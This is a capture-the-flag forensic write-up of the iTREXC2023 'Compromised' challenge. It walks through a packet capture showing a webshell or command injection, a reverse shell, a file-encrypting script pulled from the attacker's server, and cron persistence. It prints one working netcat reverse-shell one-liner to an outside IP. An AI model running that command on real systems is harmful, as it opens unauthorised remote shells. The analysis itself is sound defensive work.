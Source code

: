```yaml
---
layout: post
title: "iTREXC2023: Compromised"
date: 2023-10-22
categories:
  - CTF WriteUp
---
```


This "Compromised" challenge is one of the forensic challenges in Cyber Security Challenge competition organized by iTREXC (4th International Innovation, Technology & Research Exhibition and Conference). It is in Linux Forensic category and the difficulty is Medium.

For this challenge, we were given a `.pcap` (packet capture) file named `traffic.pcap`. We can open the file with Wireshark. We initially filter for HTTP traffic. We can see that the attacker make a GET request to the web server asking for `/images/date.php`.

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/compromised-http-filter.png){:.align-center}

The attacker then exploit a command injection vulnerability through `/images/date.php` (or it may be a webshell used by the attacker to get access to the web server, which means that the attacker already compromised the web server). The reverse shell payload establish a connection to an IP address `159.223.43.45` on port `4443`.

- `rm -f /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc 159.223.43.45 4443 >/tmp/f`

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/compromised-http-post.png){:.align-center}

We can follow the TCP stream of the reverse shell connection :

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/compromised-follow-tcp-stream.png){:.align-center}

We can see that the compromised server established a connection to `159.223.43.45`, which we believe to be an attacker's remote machine. Following the TCP stream of the reverse shell connection, we can see what's the attacker does in the compromised server.

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/compromised-tcp-stream.png){:.align-center}

The attacker navigate to `/home/nbs` and then download a file (`jahak.sh`) from the attacker's remote server to the compromised server. The `jahak.sh` file is a bash script that is used by the attacker to encrypt the document files in the compromised server using XOR encryption and transfer the files to the attacker's remote server.

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/compromised-persistent-get.png){:.align-center}

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/compromised-jahak-http.png){:.align-center}

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/compromised-jahak.png){:.align-center}

The attacker encrypt the `flag.txt` and  `important.txt` file :

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/compromised-encrypted-file.png){:.align-center}

The attacker create a cronjob to automatically run the malicious script.

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/compromised-persistent-path.png){:.align-center}

There is one question in this challenge that ask for hash of the webshell that being access by the attacker :

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/compromised-export-object.png){:.align-center}

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/compromised-export-object-file.png){:.align-center}

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/compromised-ls.png){:.align-center}

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/compromised-file-hash.png){:.align-center}
